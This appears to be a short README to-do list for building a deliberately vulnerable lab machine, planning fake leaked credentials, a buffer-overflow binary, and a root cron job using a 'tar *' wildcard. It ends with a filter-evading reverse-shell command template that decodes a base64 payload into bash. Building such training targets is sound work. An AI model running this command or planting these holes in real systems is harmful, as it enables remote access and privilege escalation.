 # BAU-project
## TODO (Zeyad)
1. Create a pastebin containig fake user and password (breach simulation). [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules)
2. Create a binary that can be easily reverse engineered to access some functionality with `golang` or `c`
3. Create a binary vulnerable to BoF to get code execution (optional).
4. Create a CronJob from root running a bad script which is used for backup. (tar *)
5. Cron job to clean /var/log/apache2/access.log

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
